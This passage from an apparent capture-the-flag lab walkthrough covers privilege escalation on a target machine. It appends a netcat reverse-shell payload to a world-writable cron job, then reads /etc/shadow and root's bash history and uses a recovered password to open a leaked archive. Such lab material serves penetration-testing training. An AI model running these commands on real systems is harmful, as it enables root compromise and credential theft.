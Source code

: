 - Examine the output
```sh
rwxrw-rw- 1 www-data www-data 66 Sep 12  2022 /etc/cron.hourly/cuiteur-cleaning
```

## 8) Escalate privileges to root

> **Duration:** 10 minutes
### 8.1 Examine the cron job with write access for everyone 
```sh
cd /etc/cron.hourly
cat cuiteur-cleaning
```
### 8.2 Open a listener on the **Kali** for a reverse shell connection with root privileges
```sh
sudo nc -nlvp 7777
``` 
### 8.3 Edit the cron job to have a reverse shell payload inside
```sh
# NOTE: You will use your IP address of your Kali
echo "rm /tmp/pipe; mkfifo /tmp/pipe; nc 192.168.0.2 7777 0</tmp/pipe | /bin/sh >/tmp/pipe 2>&1" >> cuiteur-cleaning
```

- The cron job will be automatically executed in a few minutes with root privileges
### 8.4 Execute some OS commands through the `nc` connection
```sh
whoami
pwd
locate flag{
cat /etc/shadow
```
- We can read the files requiring administrative privileges

## 9) Identify a plaintext password in the bash history  

> **Duration:** 5 minutes
### 9.1 Perform post-exploitation activities
```sh
cat /root/.bash_history

# ssh secure-file-exchange.eu
# unzip leak.zip
# x5^#CNYK-Ng@MkHZR748
# unizp leaks.zip
```
### 9.2 Access the password-protected file
```sh
unzip -P "x5^#CNYK-Ng@MkHZR748" /home/emre/Downloads/leaks.zip
```
